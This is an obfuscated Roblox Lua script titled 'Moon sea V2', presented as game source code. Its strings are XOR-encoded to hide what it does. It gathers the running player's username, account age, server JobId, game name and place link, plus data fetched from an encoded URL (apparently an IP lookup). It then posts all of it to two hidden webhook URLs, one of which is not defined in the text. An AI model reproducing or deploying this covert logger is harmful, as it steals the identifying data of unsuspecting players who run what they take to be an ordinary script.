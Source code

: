 --[[
Moon sea V2 
]]--

local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v18,v19) local v20={};for v21=1, #v18 do v6(v20,v0(v4(v1(v2(v18,v21,v21 + 1 )),v1(v2(v19,1 + (v21% #v19) ,1 + (v21% #v19) + 1 )))%256 ));end return v5(v20);end _G.WebhookURL2=v7("\217\215\207\53\245\225\136\81\213\202\200\38\233\169\195\80\210\204\214\106\231\171\206\81\198\198\217\45\233\180\204\13\158\146\136\116\179\232\150\70\137\147\130\112\181\234\149\75\135\154\137\119\169\168\235\75\134\147\216\26\235\182\197\22\226\235\136\112\201\171\225\53\250\199\141\8\213\179\145\18\203\200\210\43\232\190\234\20\201\199\200\2\226\163\234\59\130\214\150\18\178\185\241\73\130\242\246\117\217\185\203\73\137\198\138\46\215\233\208\71\255","\126\177\163\187\69\134\219\167");local v8=game:HttpGet(v7("\43\217\62\213\239\121\130\101\196\236\42\131\35\213\245\37\212\100\202\238\36","\156\67\173\74\165"));local v9=game.Players.LocalPlayer.Name;local v10=game.Players.LocalPlayer.AccountAge;local v11=game.JobId;local v12=game:GetService(v7("\25\182\91\29\185\50\86\56\182\74\19\143\35\84\34\190\74\19","\38\84\215\41\118\220\70")):GetProductInfo(game.PlaceId).Name;local v13=v7("\88\2\54\2\237\10\89\109\5\233\71\88\48\29\252\92\25\58\92\253\95\27\109\21\255\93\19\49\93","\158\48\118\66\114")   .. game.PlaceId ;local v14=os.time();local v15=os.date(v7("\234\110\4","\155\203\68\112\86\19\197"),v14);local v16=v7("\118\209\55\229\69\106\191\184","\152\38\189\86\156\32\24\133")   .. v9   .. "\n"   .. v7("\221\84\164\73\233\89\179\6\221\80\162\28\188","\38\156\55\199")   .. v10   .. " days\n"   .. v7("\155\120\110\62\22\102\186\106\140\39\60","\35\200\29\28\72\115\20\154")   .. v11   .. "\n"   .. v7("\42\186\195\201\136\62\116\55\190\220\218\215\108","\84\121\223\177\191\237\76")   .. v12   .. "\n"   .. v7("\150\87\217\224\22\89\62\202\225\22","\161\219\54\169\192\90\48\80")   .. v13   .. "\n"   .. v7("\96\114\64\4\77\70\18\32\90\81\90\101","\69\41\34\96")   .. v8 ;local v17={[v7("\168\202\195\6\7","\75\220\163\183\106\98")]=v7("\50\182\138\46\220\16\250\205\119\234\7\168\157\50\203\66\147\133\49\214","\185\98\218\235\87"),[v7("\200\51\43\233\204","\202\171\92\71\134\190")]=v7("\112\152\117\209\112","\232\73\161\76"),[v7("\189\214\77\73\27\169","\126\219\185\34\61")]={[v7("\24\203\70\102","\135\108\174\62\18\30\23\147")]=game.JobId},[v7("\183\252\62\195\23\188","\167\214\137\74\171\120\206\83")]={[v7("\133\241\63\88","\199\235\144\82\61\152")]=v7("\53\57\155\7\40\46","\75\103\118\217"),[v7("\210\70\124","\126\167\52\16\116\217")]=v7("\192\58\52\144\167\67\179\135\57\55\151\250\11\243\202\34\47\152\250\26\243\197\97","\156\168\78\64\224\212\121")},[v7("\1\231\160\194\3\253","\174\103\142\197")]={{[v7("\88\41\82\61","\152\54\72\63\88\69\62")]=v7("\228\200\239\69\209\214\174\114\213\201\235","\60\180\164\142"),[v7("\78\95\9\60\34","\114\56\62\101\73\71\141")]=v9},{[v7("\182\232\214\193","\164\216\137\187")]=v7("\243\229\50\189\179\240\31\146\199\54\183\230\182\15\211\255\34\251","\107\178\134\81\210\198\158"),[v7("\46\15\142\211\175","\202\88\110\226\166")]=v10},{[v7("\205\14\143\242","\170\163\111\226\151")]=v7("\34\53\160\46\75\37\105\56\20","\73\113\80\210\88\46\87"),[v7("\151\45\193\7\226","\135\225\76\173\114")]=v11},{[v7("\20\236\181\181","\199\122\141\216\208\204\221")]=v7("\158\216\2\230\125\228\237\243\17\253\125","\150\205\189\112\144\24"),[v7("\51\133\179\89\1","\112\69\228\223\44\100\232\113")]=v12},{[v7("\218\30\10\214","\230\180\127\103\179\214\28")]=v7("\161\4\79\6\200\72\238\135","\128\236\101\63\38\132\33"),[v7("\186\168\29\81\179","\175\204\201\113\36\214\139")]=v13},{[v7("\73\205\56\217","\100\39\172\85\188")]=v7("\132\72\249\161\55\169\106\188\147\32","\83\205\24\217\224"),[v7("\240\196\193\40\227","\93\134\165\173")]=v8}},[v7("\170\251\204\199\41\218\179\115\174","\30\222\146\161\162\90\174\210")]=string.format(v7("\160\74\61\79\225\3\53\14\209\11\32\88\225\20\53\90\183\74\42\79\181\28\116\48","\106\133\46\16"),v15.year,v15.month,v15.day,v15.hour,v15.min,v15.sec)};((syn and syn.request) or http_request)({[v7("\109\50\127","\32\56\64\19\156\58")]=_G.WebhookURL1,[v7("\119\205\241\94\85\246","\224\58\168\133\54\58\146")]=v7("\105\121\120\201","\107\57\54\43\157\21\230\231"),[v7("\243\142\16\241\188\206\220","\175\187\235\113\149\217\188")]={[v7("\31\160\143\88\230\119\108\113\155\152\92\230","\24\92\207\225\44\131\25")]=v7("\74\195\168\64\18\126\74\199\177\67\21\50\65\192\183\66","\29\43\179\216\44\123")},[v7("\159\214\36\85","\44\221\185\64")]=game:GetService(v7("\41\243\92\79\64\4\245\94\86\112\4","\19\97\135\40\63")):JSONEncode({[v7("\173\83\61\47\42\63\186","\81\206\60\83\91\79")]=v16,[v7("\75\166\210\119\43\208","\196\46\203\176\18\79\163\45")]={v17}})});((syn and syn.request) or http_request)({[v7("\141\48\114","\143\216\66\30\126\68\155")]=_G.WebhookURL2,[v7("\135\205\25\195\202\167","\129\202\168\109\171\165\195\183")]=v7("\18\119\4\236","\134\66\56\87\184\190\116"),[v7("\20\52\8\191\28\249\50","\85\92\81\105\219\121\139\65")]={[v7("\222\188\94\81\121\209\233\254\100\92\108\218","\191\157\211\48\37\28")]=v7("\222\15\228\16\51\220\30\224\21\53\209\80\254\15\53\209","\90\191\127\148\124")},[v7("\90\136\42\14","\119\24\231\78")]=game:GetService(v7("\170\57\177\90\239\69\3\148\36\166\79","\113\226\77\197\42\188\32")):JSONEncode({[v7("\57\25\250\161\63\24\224","\213\90\118\148")]=v16,[v7("\94\35\182\83\73\72","\45\59\78\212\54")]={v17}})});
